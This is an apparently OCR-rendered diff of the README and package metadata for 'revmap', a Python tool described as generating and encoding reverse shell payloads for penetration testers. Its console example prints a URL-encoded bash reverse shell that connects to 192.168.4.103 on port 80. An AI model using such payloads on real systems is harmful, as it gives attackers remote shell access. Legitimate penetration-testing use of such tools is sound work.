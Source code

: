  ```yaml
+        v0.0.8 - @joaoviictorti 
 
 options:
   -h, --help    show this help message and exit
   --version     show program's version number and exit
   --ip IP       Insert ip
   --port PORTA  Insert port
 ```
@@ -52,10 +67,26 @@
 
 ```sh
 pip3 install revmap
 ```
 
 # Executando revmap
 
-![logo_do_projeto](https://github.com/joaoviictorti/revmap/blob/main/images/revmap_console.png)
+```console
+revmap --ip 192.168.4.103 --port 80
+ ___ ___ _ _ _____ ___ ___
+|  _| -_| | |     | .'| . |
+|_| |___|\_/|_|_|_|__,|  _|
+                      |_|
+        v0.0.8 - @joaoviictorti
+
+[tab] for commands suggestions
+192.168.4.103 (80) [revmap] # bash
+Do you want to use encoding?  (Yes/No) [revmap] # yes
+Insert encode [revmap] # urlencode
+bash%20-c%20%27exec%20bash%20-i%20%26%3E/dev/tcp/192.168.4.103/80%20%3C%261%27
+192.168.4.103 (80) [revmap] #
+
+```
 
 <img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=footer"/>
+
```

#### html2text {}

```diff
@@ -1,8 +1,15 @@
-[https://capsule-render.vercel.app/
+Metadata-Version: 2.1 Name: revmap Version: 0.0.8 Summary: Ferramenta que gera
+shell reverso em vÃ¡rias linguagens de programaÃ§Ã£o e codifica Home-page:
+https://github.com/joaoviictorti/revmap License: MIT Author: JoÃ£o Author-
+email: joaovictorti08@gmail.com Requires-Python: >=3.11,<4.0 Classifier:
+License :: OSI Approved :: MIT License Classifier: Programming Language ::
+Python :: 3 Classifier: Programming Language :: Python :: 3.11 Requires-Dist:
+prompt-toolkit (==3.0.36) Description-Content-Type: text/markdown [https://
+capsule-render.vercel.app/
 api?type=waving&color=0000FF&height=120&section=header] [![Typing SVG](https://
 readme-typing-svg.herokuapp.com/
 ?color=0000FF&size=32&center=true&vCenter=true&width=1000&height=30&lines=revmap)]
 (https://git.io/typing-svg)
   *** Tool that generates reverse shell in multiple languages and encodes ***
                  Features â¢ Install â¢ How_to_use â¢ Usage
 --- O revmap Ã© uma ferramenta que gera payloads de reverse shell de vÃ¡rias
@@ -14,14 +21,19 @@
 encodes, mantive um modelo consistentemente passivo para tornÃ¡-lo Ãºtil para
 testadores de penetraÃ§Ã£o. # CaracterÃ­sticas - Gera payloads de reverse shell
 para diversas linguagens de programaÃ§Ã£o (python, bash, powershell e etc) -
 Funcionalidade de realizar encode das payloads desejadas (Url encode, base64,
```